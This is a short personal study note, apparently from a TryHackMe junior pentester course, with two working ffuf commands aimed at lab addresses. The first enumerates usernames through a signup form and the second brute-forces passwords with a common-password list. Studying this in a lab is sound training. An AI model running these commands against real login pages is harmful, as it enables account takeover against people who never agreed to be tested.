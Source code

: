 # Today-I-Learnt

## TIL 05/06/2022

### Docker Network


### Linux Monitoring


### Tryhackme
#### Jnr Pentester 
##### Authentication Bypass
```bash
# Fuzzing a username
# Which ever field needs to be fuzzed should have a value set as 'FUZZ' 
# '-mr' is the flag used to slect what is the valid output we are looking for in the page
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists" 

# Fuzzing password
# When we pass the file as values to the field we use '-w'
# -fc flag is used for status code we are looking for
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.228.119/customers/login -fc 200

```

